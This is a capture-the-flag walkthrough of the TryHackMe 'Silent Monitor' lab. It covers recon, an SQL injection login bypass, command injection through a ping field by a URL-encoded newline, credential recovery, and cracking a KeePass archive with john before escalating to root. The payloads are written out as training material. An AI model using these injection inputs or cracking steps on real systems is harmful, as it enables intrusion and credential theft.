







# Silent Monitor 
---
[TryHackMe](https://tryhackme.com/room/silent-monitor)
>|medium|linux|web|
---
>Green Lights, Dark Corners
CorpNet's internal network operations centre has been running quietly for years. Monitoring hosts, logging events, and keeping the infrastructure alive. Or so it seems. A tip from a disgruntled contractor suggests that someone on the NOC team has been cutting corners, leaving doors open, and hiding things in places no one thinks to look.
>
>The portal is up. The services show green. The audit log looks clean.
>
>But clean logs can be written by anyone.
>
>Your job is to get in, move through the system, and find out what is really running behind the secret dashboard.

## Recon
### nmap and gobuster
nmap revealed ports 22 and 5050, nothing else interesting was shown.
gobuster revealead the /internal endpoint.

Attempting a SQLi login  bypass on the /internal endpoint with `1234' OR 1=1 -- - ` was successful

and we ended up as an operator.
Browsing the dashboard a bit, we noticed the ping feature on the page.
Upon closer inspection of dashboard and the tool, we noticed someone tried ping
`127.0.0.1%0awhoami` and `%0a` is the url encoding of newline character. Hence, after decoding the newline character separates the IP and the injected command leading to the command injection.

## Exploitation
Taking the ping request with `127.0.0.1%0awhoami` to burp repeater we tried the same and the command injection worked.
after injecting the `ls`, we saw a file *security.config*. Reading through this file we recovered
the sysadmin account credentials - sysadmin:<*REDACTED*>.

Recalling that ssh is open, we log in using the credentials we have just recovered and obtain the *user.txt* flag.

### Escalation to root
Searching through the files, we noticed a keepass archive in the backups folder.
On the remote machine, we hosted a python server `python3 -m http.server 8080` and downloaded the file locally
`wget $IP:8080/backups/infrastructure.kdbx` to try and crack the password for the archive.
```bash
keepass2john infrastructure.kdbx > hash.kdbx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.kdbx
```


Using the commands above, we have managed to recover the password for the archive and the root password contained within it.
Now finally, we switch back to the ssh and change to root obtaining the root flag.
```bash
sudo su
cat root.txt
```



